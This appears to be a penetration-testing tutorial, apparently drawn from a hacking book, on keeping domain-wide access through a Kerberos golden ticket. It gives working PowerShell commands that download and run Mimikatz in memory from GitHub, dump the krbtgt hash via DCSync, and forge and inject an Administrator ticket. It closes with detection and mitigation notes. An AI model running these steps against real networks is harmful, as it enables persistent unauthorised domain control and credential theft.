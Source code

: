 # Backdooring the domain (kerberos golden ticket):

*Note: this section continues from the previous cookbook on Mimikatz and persistence with WMI and follows demonstrations from the book "How to Hack Like a GOD: Master the Secrets of Hacking Through Real Life Scenarios" (continuing from page no. 78).*

Our goal here is simple: to retain highly privileged access to the domain, even if an admin resets every password, removes users, or patches servers. This involves leveraging Windows domain authentication mechanisms, particularly Kerberos, to create a backdoor.

Kerberos is an authentication protocol implemented by Microsoft to address NTLM weaknesses, such as replay attacks. Here are the key steps in Windows Kerberos authentication:

Initial Authentication:

The user encrypts the current timestamp with their password hash and sends it to the Domain Controller (DC). The DC decrypts the timestamp using the hash stored in Active Directory and checks if it falls within a 10-minute range. If valid, it sends back an encrypted blob called the Ticket Granting Ticket (TGT), which contains the user's identity and privileges. Only the DC can decrypt and read the TGT.

Accessing a Service:

When the user wants to access a service (e.g., a web service or network share), they send the TGT and the service's name to the DC.

The DC decrypts the TGT, retrieves the user's identity, checks their access rights, and if allowed, sends back another encrypted blob called the Ticket Granting Service (TGS). This TGS contains the user's identity and can only be read by the target service.

The user forwards the TGS to the target service, which decrypts it, retrieves the user's identity, and grants access.

The TGT is encrypted by the DC using a unique key, specifically the krbtgt account's password hash. If we can access this key, we can create our own TGT containing any identity, such as the main domain admin account (Administrator).

By controlling the TGT, we can set its validity time, potentially making it last for years instead of the standard 10 minutes.

This ticket remains valid even if the administrator's password changes.

The krbtgt hash provides access to all domains within the forest, making it the ultimate backdoor.

To achieve full persistent access to the domain (forest), we need the krbtgt's password hash. There are various ways to obtain it:

- Dumping the Active Directory Database:

This method involves extracting the NTDS.DIT file from the domain controller and parsing all accounts. It is slow and cumbersome.

- Using DCSync:

A more efficient method is to use DCSync, which leverages domain controller synchronization mechanisms. Domain controllers regularly exchange password hashes to delegate authentication. By impersonating a Domain Controller, we can request any account's password hash from a legitimate Domain Controller.

Of course, with domain admin privileges, we can use the tool Mimikatz to perform a DCSync attack and generate a Golden Ticket.

Before talking to the DC (Domain Controller), we need to spawn a session using Rachel’s credentials (the compromised admin account from previous cookbook). We may be NT AUTHORITY on the local Citrix system, but we need a domain admin session to perform DC Sync operations:

```
PS > runas /user:GBSHOP\rachel_adm powershell
```

This command will open a new PowerShell session running under the credentials of the rachel_adm account. The runas command allows you to execute a program as another user, providing the necessary privileges for subsequent actions.

After verifying everything with the whoami command, we use the same trick as before (Invoke-Expression) to download Mimikatz and invoke it in memory. Then we call the dcsync option to grab the krbtgt account's password hash:

```
PS > Invoke-mimikatz -Command '"lsadump::dcsync /domain:GBSHOP.CORP /user:krbtgt"'
```

Note: here is the full process as a reminder:

```
# Step 1: Download the Invoke-Mimikatz script
PS > $browser = New-Object System.Net.WebClient
PS > $browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# Step 2: Store the downloaded script into a variable
PS > $mimi = $browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")

# Step 3: Invoke the downloaded script in memory
PS > Invoke-Expression $mimi

# Step 4: Perform the dcsync operation to retrieve the krbtgt password hash
PS > Invoke-Mimikatz -Command '"lsadump::dcsync /domain:GBSHOP.CORP /user:krbtgt"'
```

The dcsync command in Mimikatz mimics the behavior of a domain controller requesting replication of account information, in this case, the krbtgt account. This gives us access to the password hash for the krbtgt account, which is crucial for creating a Golden Ticket.

In the output (not shown here), we will find the credentials in NTLM hash form. We safely store this hash on the attack server. To generate a Golden Ticket, we also need to determine the domain’s SID (Security Identifier), a unique object identifier on Windows:

```
PS C:\users\public> whoami /user

User Name           SID
================= =========================
gbshop\rachel_adm S-1-5-21-2376009117-2296651833-4279148973-1116
```

The whoami /user command displays the SID for the current user. This SID is required for creating the Golden Ticket.

We then use Mimikatz to create a Golden Ticket impersonating the main Windows domain Administrator account:

Note: the very ending of the SID (including the dash) needs to be removed before the next step (i.e. -1116)

```
PS C:\users\public> Invoke-Mimikatz -Command '"kerberos::golden /admin:Administrator /domain:gbshop.corp /krbtgt:6a5c12974ec341dd244b693ad4d38369 /sid:S-1-5-21-2376009117-2296651833-4279148973 /ticket:admin.kirbi"'
```

This command generates a Golden Ticket, a forged Kerberos Ticket Granting Ticket (TGT), using the krbtgt NTLM hash, the domain SID, and specifying the Administrator account. The generated ticket is saved to a file named admin.kirbi.

The final ticket will be saved to a file, presumably located in the public directory (please verify the exact location where the file is saved).

Next time we want to use this Golden Ticket from a new Empire session, for instance, we issue the following command:

```
PS C:\users\public> Invoke-Mimikatz -Command '"sekurlsa::ptt admin.kirbi"'
```

The sekurlsa::ptt command injects the Golden Ticket (admin.kirbi) into the current session, granting full domain admin privileges. This allows execution of commands, adding users, and performing other administrative tasks on the domain.

Mimikatz will inject the admin’s ticket into the current session, granting us full domain admin privileges. We can then issue WMI commands on remote servers, execute commands, add users, etc. The only way to lose a Golden Ticket is to change the krbtgt password twice.

Some caveats and concerns worth noting:

- Using Mimikatz and performing DC Sync operations can trigger security alerts. Organizations with good monitoring practices may detect such activities quickly. For example, SIEM (Security Information and Event Management) systems aggregate logs from various sources, including endpoints, network devices, and servers. They can correlate events and trigger alerts on suspicious activities, such as unauthorized DC Sync requests or unusual access to privileged accounts.

- Even if Mimikatz is obfuscated or run from memory to avoid signature detection, its actions (like accessing LSASS memory or performing certain API calls) can still be flagged by behavior-based detection systems. Also, network monitoring tools can detect unusual replication traffic patterns. If a system that is not a DC suddenly starts communicating with a DC using DRS protocol, it can raise red flags.

- Actions performed by Mimikatz, such as dumping credentials or injecting tickets, often leave traces in event logs. For instance, accessing LSASS or modifying Kerberos tickets can generate specific Windows event logs that can be monitored. Windows logs DC Sync operations in the Security event log. Look for events like Event ID 4662 (An operation was performed on an object) and Event ID 4673 (A privileged service was called). These events can indicate unauthorized replication operations.

- DC Sync is a feature of the Directory Replication Service (DRS) Remote Protocol that allows a Domain Controller (DC) to replicate data from another DC. Mimikatz can abuse this functionality to replicate (or "sync") user account credentials, including password hashes, from a DC. DC Sync requests should typically only be seen between actual Domain Controllers. If a non-DC system is making DC Sync requests, it is highly suspicious and can be flagged by security monitoring systems.

- Although a Golden Ticket can be set to a long lifespan, using it indiscriminately can raise suspicion.

- Changing krbtgt Password: The Golden Ticket remains valid until the krbtgt password is changed twice. Regularly changing this password can help mitigate the risk of Golden Ticket attacks.
